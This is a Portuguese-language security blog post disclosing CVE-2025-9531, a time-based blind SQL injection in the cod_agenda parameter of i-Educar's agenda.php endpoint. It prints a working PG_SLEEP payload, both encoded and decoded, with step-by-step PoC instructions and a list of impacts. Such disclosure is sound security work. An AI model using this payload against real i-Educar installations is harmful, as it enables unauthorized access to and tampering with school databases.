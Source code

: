 ```yaml
---
weight: 1
title: "CVE-2025-9531"
date: 2025-08-27T21:29:01+08:00
draft: false
authors: ["Karina"]
description: "Como encontrei uma Injeção Blind de SQL baseada em tempo no i-Educar (com atraso real e PoC)"
featuredImage: "/images/CVE-2025-9531/CVE-2025-9531.png"

tags: ["Injeção de SQL", "i-Educar", "CVE-2025-9531", "Blind SQLi", "Cibersegurança"]
categories: ["CVE"]
lightgallery: true
license: '<a rel="license external nofollow noopener noreferrer" href="https://creativecommons.org/licenses/by-nc/4.0/" target="_blank">CC BY-NC 4.0</a>'
toc:
  auto: false
---
```


Como encontrei uma **Injeção Blind de SQL baseada em tempo** no i-Educar (com atraso real e PoC).

<!--more-->

> ***🇺🇸 Read in [English](http://karinagante.github.io/cve-2025-9531/).***

## CVE-2025-9531

### Introdução

<p align="justify">Ao me aprofundar no projeto Open-Source <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b>, descobri uma vulnerabilidade crítica de injeção de SQL (Blind), baseada em tempo, no parâmetro <b>cod_agenda</b> do endpoint <b>agenda.php</b>. </br> Essa falha permite que invasores executem consultas SQL arbitrárias silenciosamente no banco de dados de back-end, colocando em risco a confidencialidade, a integridade e a disponibilidade dos dados. </br> Após validar o problema usando um payload que causou atrasos mensuráveis ​​na resposta do servidor, relatei o problema de forma responsável, e o problema foi oficialmente atribuído como <b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b>. </p>

### O que é a CVE-2025-9531?

<p align="justify"><b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b> é uma vulnerabilidade de injeção de SQL no endpoint <b>/intranet/agenda.php</b> do aplicativo <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b>. </br> O parâmetro vulnerável é <b>cod_agenda</b>, que não possui validação de entrada adequada. </br> Isso possibilita a injeção de consultas SQL personalizadas, incluindo funções <code>PG_SLEEP()</code> que introduzem atrasos de tempo, confirmando a falha por meio de comportamento baseado em tempo. </p>

### Detalhes Técnicos

➤ **Endpoint vulnerável** `/intranet/agenda.php`

➤ **Parâmetro afetado:** `cod_agenda`

> ➤ **Payload Utilizado (Codificado)** 
> ```sql
>%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO
>```

> ➤ **Payload Utilizado (Decodificado)** 
> ```sql
>' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
>```

### Proof of Concept (PoC)

Para reproduzir a vulnerabilidade:

➤ Acesse o endpoint vulnerável e clique em **"Novo Compromisso"**

➤ Preencha os campos obrigatórios e clique em **"Salvar"**

➤ O sistema redireciona para uma URL como:

```URL
http://localhost:8086/intranet/agenda.php?cod_agenda=2&time=1755283
```
<br>
➤ Agora, modifique o parâmetro `cod_agenda` com o payload:

```URL
/intranet/agenda.php?cod_agenda=2' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
```
> <p align="justify">O servidor levará 5 segundos para responder, confirmando que a consulta SQL foi executada com sucesso.</p>

<p align="center">
<img src="/images/CVE-2025-9531/PoC1.png"><br>
</p>

{{< admonition tip Report >}}
Você pode acessar o relatório completo e ver o passo a passo completo aqui:

{{< fa-icon regular github >}}
***[Relatório CVE-2025-9531](https://github.com/KarinaGante/KG-Sec/blob/main/CVEs/Scada-LTS/CVE-2025-9531.md)***
{{< /admonition >}}

### Impacto

Essa vulnerabilidade pode ser explorada para:

- Acessar dados confidenciais armazenados no banco de dados;
- Enumerar esquemas, tabelas e colunas do banco de dados;
- Modificar, excluir ou inserir registros arbitrários;
- Roubar credenciais de usuários e informações pessoais;
- Executar negação de serviço (DoS) acionando longos atrasos nas consultas;
- Em alguns casos, escalar para Execução Remota de Código (RCE).

### Fontes Oficiais

A falha foi reportada eticamente e atribuída como:

{{< admonition important Referências>}} 
{{< fa-icon regular shield >}} 
***[CVE-2025-9531 no CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-9531)***

{{< fa-icon regular database >}} 
***[Entrada no VulDB](https://vuldb.com/?id.321550)***
{{< /admonition >}}

### Conclusão

<p align="justify">Ataques de injeção de SQL continuam sendo uma das ameaças mais críticas a aplicações web, especialmente quando silenciosos e baseados em tempo. Esta descoberta prova como um único parâmetro não validado pode comprometer todo o banco de dados por trás de uma plataforma. </br></br> Se você é desenvolvedor ou analista de segurança, fique atento: <b>mesmo endpoints pequenos e aparentemente inofensivos podem esconder falhas perigosas.</b></p>

## Créditos

***Descoberto com💜 por [Karina Gante](https://karinagante.github.io/).*** 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

> ***Membro Oficial do [CVE-Hunters](https://www.cvehunters.com/)🏹***